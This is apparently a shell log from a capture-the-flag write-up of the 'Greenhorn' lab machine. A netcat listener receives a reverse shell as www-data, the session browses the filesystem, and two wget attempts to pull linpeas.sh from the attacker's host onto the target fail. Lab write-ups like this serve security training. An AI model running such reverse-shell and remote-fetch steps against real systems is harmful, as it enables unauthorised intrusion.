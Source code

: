 ```shell
nc -nlvp 9001        
listening on [any] 9001 ...
connect to [10.10.16.75] from (UNKNOWN) [10.10.11.25] 34826
Linux greenhorn 5.15.0-113-generic #123-Ubuntu SMP Mon Jun 10 08:16:17 UTC 2024 x86_64 x86_64 x86_64 GNU/Linux
 12:16:24 up  3:00,  1 user,  load average: 0.03, 0.09, 0.16
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
root     pts/0    10.10.16.27      12:07    7:10   0.04s  0.00s /usr/bin/curl -s http://greenhorn.htb/?file=welcome-to-greenhorn
uid=33(www-data) gid=33(www-data) groups=33(www-data)
sh: 0: can't access tty; job control turned off
$ ls
bin
boot
cdrom
data
dev
etc
home
lib
lib32
lib64
libx32
lost+found
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
$ cd /home
$ ls
git
junior
$ cd junior
$ ls
Using OpenVAS.pdf
user.txt
$ cat user.txt	
cat: user.txt: Permission denied
$ wget http://10.10.16.75/linpeas.sh
--2024-10-01 12:18:16--  http://10.10.16.75/linpeas.sh
Connecting to 10.10.16.75:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 824942 (806K) [text/x-sh]
linpeas.sh: Permission denied

Cannot write to 'linpeas.sh' (Permission denied).
$ cd ~
$ wget http://10.10.16.75/linpeas.sh
--2024-10-01 12:18:45--  http://10.10.16.75/linpeas.sh
Connecting to 10.10.16.75:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 824942 (806K) [text/x-sh]
linpeas.sh: Permission denied

Cannot write to 'linpeas.sh' (Permission denied).
```
